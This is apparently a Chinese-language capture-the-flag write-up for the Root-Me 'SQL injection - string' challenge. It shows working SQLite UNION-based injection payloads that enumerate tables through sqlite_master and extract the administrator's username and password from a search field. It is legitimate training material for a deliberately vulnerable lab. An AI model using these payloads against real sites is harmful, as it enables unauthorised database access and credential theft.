 Root-Me [SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)
===

很簡陋的 CMS。

## 解題關鍵
1. SQL-Injection

## 提示訊息
```
Retrieve the administrator password
```

## 解題方法
首先該頁面上有幾篇文章，與搜尋、登入的功能。  

瀏覽文章，可以發現 URL 的規則如下：
```
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=1
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=2
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=3
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=4
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=5
```

最後方的 `news_id=n` 就來簡單測試注入。 

```
news_id=1 + 1 //Fail
news_id=1 - 1 //Fail
news_id=1' or 1 = 1 %23  //Fail
news_id=1' and 1 = 1 %23 //Fail
```

經過簡單的測試，可能不具有注入點，接著往搜尋頁面找找。  
![](img/01.png)  

可以發現該功能可以找到相關文章篇數、內容，接著透過輸入 `' or 1 = 1 --`，出現了與上方圖片相符的結果，表示該地方據有注入點。  

隨後透過 `' order by 2  --` 得知該地方輸出欄位為 `2`，接著透過 `union select 1,database() --` 來得到資料庫名稱，結果呈現 `no such function: database`，才發現 SQLite 好像沒有 `database()` 的用法。  

透過參考資料得知可以用 `sqlite_master` 來找出所有的資料表名稱。  

```
' union select 1,name FROM sqlite_master WHERE type='table' limit 0,1--
news

' union select 1,name FROM sqlite_master WHERE type='table' limit 1,1--
users
```

接著找出 `users` 資料表的結構。  

```
'union select 1,sql FROM sqlite_master WHERE type='table' limit 1,1--
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```

最後列出欄位裡面的資料，這部分由於搜尋功能還是會作用，便在 `'` 之前加上 `XXXX`，把前面的搜尋結果過濾掉，`limit 0,1` 便會是 `admin`，解決該題。  

```
XXXX' union select username||'::'||password,2 FROM users limit 0,1--
```

![](img/02.png)  


## Reference
https://klionsec.github.io/2016/05/18/sqlite3-common-injection/

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)